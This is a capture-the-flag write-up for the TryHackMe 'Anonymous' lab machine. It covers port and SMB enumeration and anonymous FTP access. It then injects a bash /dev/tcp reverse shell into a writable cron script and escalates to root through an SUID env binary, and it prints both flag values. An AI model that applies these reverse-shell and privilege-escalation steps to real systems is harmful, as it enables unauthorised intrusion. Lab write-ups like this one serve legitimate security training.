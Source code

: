 # Anonymous

## Task 1 - Pwn
```
export IP=10.10.224.99
```

### 1 - Enumerate the machine.  How many ports are open?
Initial nmap scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Anonymous$ nmap -sC -sV -Pn -n -oN nmap/initial -T4 $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 00:24 MDT
Nmap scan report for 10.10.224.99
Host is up (0.16s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.21.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1m01s, deviation: 1s, median: -1m02s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-05-28T06:23:31+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-28T06:23:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.91 seconds
```

### 2 - What service is running on port 21?
```
ftp
```

### 3 - What service is running on ports 139 and 445?
```
smb
```

### 4 - There's a share on the user's computer.  What's it called?
Running enum4linux gives us this info -- `enum4linux -a $IP`:

```bash
=========================================
|    Share Enumeration on 10.10.224.99    |
 =========================================

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.224.99
//10.10.224.99/print$	Mapping: DENIED, Listing: N/A
//10.10.224.99/pics	Mapping: OK, Listing: OK
//10.10.224.99/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```

### 5 - user.txt
We can log into the FTP service with the Anonymous user and no password, in their we find a directory named `scripts`:

I started by logging in with smbclient to the device since `enum4linux` found some password combos, and the `pics` share had two photos. Doing some lowing hanging fruit stegonography with exiftools, strings, then steghide and stegcracker did not give any results. Quickly gave up on SMB and began to look at FTP.

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
```

Moving into the `scripts` directory we can get all that is in there:

```bash
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000          129 May 28 06:25 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
ftp> mget .
mget clean.sh? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for clean.sh (314 bytes).
226 Transfer complete.
314 bytes received in 0.00 secs (132.9175 kB/s)
mget removed_files.log? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for removed_files.log (129 bytes).
226 Transfer complete.
129 bytes received in 0.00 secs (108.9763 kB/s)
mget to_do.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.05 secs (1.3644 kB/s)
```

Doesn't seem to be anything useful in those files, but there is. This scripts directory smells like a cron job to me. Looking at the log file we can see a couple of messages. Looking at the source of `clean.sh`:

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

If this is indeed a cron job, then we can put a bash reverse shell in this script, upload it to the directory since we have write permissions, and if there is a cronjob running the `clean.sh` script then the cronjob will execute it for us and give us a reverse shell. The modified script looks like this:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.8.21.42/1234 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

After putting this file back into the FTP server, after some short time it executes and we get the reverse shell to find the flag:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Anonymous$ nc -lvp 1234
listening on [any] 1234 ...
10.10.224.99: inverse host lookup failed: Unknown host
connect to [10.8.21.42] from (UNKNOWN) [10.10.224.99] 58014
bash: cannot set terminal process group (2085): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740
```


### 6 - root.txt
Once we are on the box we can copy over linpeas and begin to enumerate the system. Once we run linpeas we find that `/usr/bin/env` has the SUID bit set. Using [GTFOBins](https://gtfobins.github.io/gtfobins/env/) we can easily get a root shell using this SUID binary:

```bash
namelessone@anonymous:/tmp$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
# id
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Now we just need to get the flag:

```bash
# cat /root/root.txt
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```
